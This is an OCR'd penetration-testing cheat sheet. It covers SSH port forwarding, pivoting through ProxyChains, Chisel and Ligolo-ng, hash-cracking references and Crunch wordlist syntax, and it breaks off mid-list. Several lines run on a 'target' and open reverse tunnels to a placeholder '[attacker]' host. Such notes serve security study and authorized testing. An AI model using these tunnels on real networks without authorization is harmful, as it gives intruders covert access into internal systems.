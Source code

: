 A device has access to a port I want.
ssh [device I’m connecting to that has what I want – user@ip] -p [port to ssh to that device on – 22] -L [what port of mine I want it on]:[what I want – ip:port]
  
I have access to a port a device wants.
ssh [device I’m connecting to that wants what I have – user@ip] -p [port to ssh to that device on – 22] -R [what port of theirs they want it on]:[what they want – ip:port]
  
# ProxyChains
  
### SSH
From target (SSH server on attacker): ssh -fN -R [port] root@[attacker]
From attacker (SSH server on target): ssh -fN -D [port] [user]@[target]
  
### Chisel
On attacker: chisel server -p 8000 --socks5 --reverse
On target: chisel client [attacker]:8000 R:socks
  
edit /etc/proxychains.conf
...
socks5    [host] 1080
  
proxychains [command to execute on target]
  
### Ligolo-ng
Prep (on attacker):
ip tuntap add user [user] mode tun ligolo
ip link set ligolo up
ip route add [network] dev ligolo
  
On attacker (proxy): ligolo -selfcert -laddr 0.0.0.0:8000
On target (agent): ligolo -connect [attacker]:8000 -ignore-cert
  
session
start
  
listener_add --addr 0.0.0.0:[target port] --to 127.0.0.1:[kali port] --tcp
  
Hash Cracking
[CrackStation](https://crackstation.net/)
  
# Wordlist Generation
  
## Crunch
crunch [minimum num characters] [maximum num characters] [characters] -t [pattern] -b [max filesize] -o [filename] -p (no repeating characters) or -p [word1] [word2]... (mix words no repeat)
- pattern:
    
- @ ⇒ lowercase letters
    
- , ⇒ uppercase letters
    
